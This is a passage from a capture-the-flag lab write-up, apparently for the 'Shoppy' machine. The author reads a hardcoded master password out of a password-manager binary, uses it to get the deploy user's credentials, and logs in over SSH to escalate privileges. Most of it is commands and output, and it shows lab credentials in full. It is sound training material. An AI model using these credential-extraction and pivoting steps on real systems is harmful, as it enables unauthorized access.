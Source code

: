 For now we can only read the password-manager file and run it as deploy

```bash
jaeger@shoppy:/home/deploy$ file password-manager
password-manager: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=400b2ed9d2b4121f9991060f343348080d2905d1, for GNU/Linux 3.2.
0, not stripped
```
{: .nolineno }

So using strings we could not get anything, but while trying to execute it, we understand the flow of the binary. That helped when it came to read the file with `less/cat`

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: testing
Access denied! This incident will be reported !
```
{: .nolineno }

So the binary asks for a password in order to grant access to the password-manager. Seing this was important because we understand the flow of the binary. Now while reading the file we notice something, that when we will try it will surprise us. but it made sense since we knew the flow. There is a password disclosure inside the binary

```bash
jaeger@shoppy:/home/deploy$ cat password-manager
[SNIP]
H]UHH}u}u2}u)H=.Hu,H5.H+H/UH]AWL=W)AVIAUIATAUH-P)SL)HtLLDAHH9u[]A\A]A^A_Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !
```
{: .nolineno }

Here is the password, since when we tried earlier, after entering the password a message is displayed to tell us if we got it or not. So if we have the right one, we get a Access granted message shown to us. so that’s why we believed Sample is the password needed to access password-manager

Let’s try it out and see

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```
{: .nolineno }

There we got the user deploy credentials. Time to ssh and pivot as deploy now

```bash
➜  ssh deploy@shoppy.htb                              
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb' (ED25519) to the list of known hosts.
deploy@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```